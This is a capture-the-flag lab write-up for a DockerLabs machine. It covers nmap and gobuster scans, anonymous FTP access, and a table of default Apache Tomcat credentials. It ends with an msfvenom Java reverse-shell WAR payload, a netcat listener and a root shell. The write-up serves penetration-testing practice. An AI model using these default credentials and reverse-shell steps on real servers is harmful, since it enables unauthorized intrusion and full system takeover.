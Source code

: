 #-Pn DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

We performed a scan with nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 00:13 CEST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 00:13 (0:00:06 remaining)
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 100.00% done; ETC: 00:13 (0:00:00 remaining)
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 95.79% done; ETC: 00:13 (0:00:00 remaining)
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.30% done; ETC: 00:13 (0:00:00 remaining)
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
8080/tcp open  http    Apache Tomcat 9.0.88
|_http-title: Apache Tomcat/9.0.88
|_http-favicon: Apache Tomcat
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.43 seconds
```

We see that we can access the ftp server without a password.
We log in and find a ‘.txt’ file:

```shell
└─$ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

```shell
ftp> get tomcat.txt
local: tomcat.txt remote: tomcat.txt
229 Entering Extended Passive Mode (|||11583|)
150 Opening BINARY mode data connection for tomcat.txt (74 bytes).
100% |*|    74        1.10 MiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (169.24 KiB/s)
```


```shell
└─$ cat tomcat.txt 
Hello tomcat, can you configure the tomcat server? I lost the password...

```

Well... nothing interesting to go on, before entering the website we will do a subdomain scan with gobuster:

```shell
└─$ gobuster dir -u "http://172.17.0.2:8080/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/http%3A%2F%2Fwww     (Status: 400) [Size: 841]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 841]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 841]
/http%3A%2F%2Fblog    (Status: 400) [Size: 841]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 841]
/External%5CX-News    (Status: 400) [Size: 795]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 841]
/http%3A%2F%2Fradar   (Status: 400) [Size: 841]
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 841]
/http%3A%2F%2Fweblog  (Status: 400) [Size: 841]
/http%3A%2F%2Fswik    (Status: 400) [Size: 841]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Nothing interesting either... Let's try to enter the web page...
Entering in ‘http://172.17.0.2:8080/’ we find a page of Apache Tomcat version 9.0.88.
If we look closely we can find a login panel:


![Captura de pantalla 2024-05-15 005242](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/45b0b2bf-4bd1-4a4f-988c-6191a990fc90)
![Captura de pantalla 2024-05-15 010522](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/dafa213a-5a85-4fb5-920a-e7e2e5426951)

Default tomcat passwords:

# Apache Tomcat Default Credentials

|Username     |Password  |
|-------------|----------|
|admin        |password  |
|admin        |<blank>   |
|admin        |Password1 |
|admin        |password1 |
|admin        |admin     |
|admin        |tomcat    |
|both         |tomcat    |
|manager      |manager   |
|role1        |role1     |
|role1        |tomcat    |
|role         |changethis|
|root         |Password1 |
|root         |changethis|
|root         |password  |
|root         |password1 |
|root         |r00t      |
|root         |root      |
|root         |toor      |
|tomcat       |tomcat    |
|tomcat       |s3cret    |
|tomcat       |password1 |
|tomcat       |password  |
|tomcat       |<blank>   |
|tomcat       |admin     |
|tomcat       |changethis|

We enter and find a section where we can upload ‘.war’ files.
Go to ‘https://revshells.com/’ and look for the .war file option with msfvenom:

```shell
msfvenom -p java/shell_reverse_tcp LHOST=127.17.0.2 LPORT=9001 -f war -o shell.war
```

![Captura de pantalla 2024-05-15 005818](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/8ac19833-b7f8-4ef5-bf61-4fbb78176212)

We open a listening port with netcat:

```shell
nc -lvnp 9001
```

We brought it up and called it in:

![Captura de pantalla 2024-05-15 010324](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/a2b89848-d5b9-4110-b001-cf057ac5a903)
![Captura de pantalla 2024-05-15 010345](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/13592867-97e0-44cb-b8f1-11548b626743)


And now we have control and full permissions:

```shell
#whoami
root
```
